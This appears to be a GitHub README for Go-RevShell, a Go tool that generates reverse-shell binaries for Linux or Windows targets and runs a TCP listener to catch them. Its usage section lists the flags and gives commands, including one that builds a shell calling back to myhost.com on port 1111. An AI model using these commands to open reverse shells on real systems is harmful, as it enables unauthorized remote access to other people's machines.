 ![Go-RevShell-Banner](img/Go-RevShell-Banner.jpeg)

Go-RevShell
=======

Pure standard Golang implementation of a reverse-shell generator and a tcp listener.

## Table of content
- [Go-RevShell](#go-revshell)
  - [Table of content](#table-of-content)
  - [Usage](#usage)
    - [Build a reverse shell](#build-a-reverse-shell)
    - [Attach to reverse shell](#attach-to-reverse-shell)
  - [Screenshots](#screenshots)
  - [Todo List](#todo-list)


## Usage
```text
  -i string
        IP of the host which the reverse shell will connect to. (default "localhost")
  -l string
        Port to listen (you can use this argument to bind to your reverse shell). (default "0")
  -p string
        Port of the host which the reverse shell will connect to. (default "1111")
  -s string
        OS of the server which will start the reverse shell (used to build the right binary) available : "windows", "linux". (default "linux")
  -t string
        Template to use to generate the reverse shell. Available : "native", "tty". (default "native")
```

### Build a reverse shell

* Build a native shell for linux server : ```go run main.go -s linux```
* Build a TYY shell for linux server : ```go run main.go -t tty -s linux```
* Build a TYY shell for linux server, with client ip and port : ```go run main.go -t tty -s linux -i myhost.com -p 1111```
* Build a native shell for windows server : ```go run main.go -s windows```

### Attach to reverse shell

* Listen to port 1111 ```go run main.go -l 1111```
* Listen to port 3412 ```go run main.go -l 3412```

## Screenshots

![Go-RevShell-Generate](img/Go-RevShell-Generate.png)
![Go-RevShell-Attach](img/Go-RevShell-Attach.png)

## Todo List

* More tests across differents os
* Add Windows payloads for pty
* Publish package
* Refresh and anon screenshots

**[`^        back to top        ^`](#)**
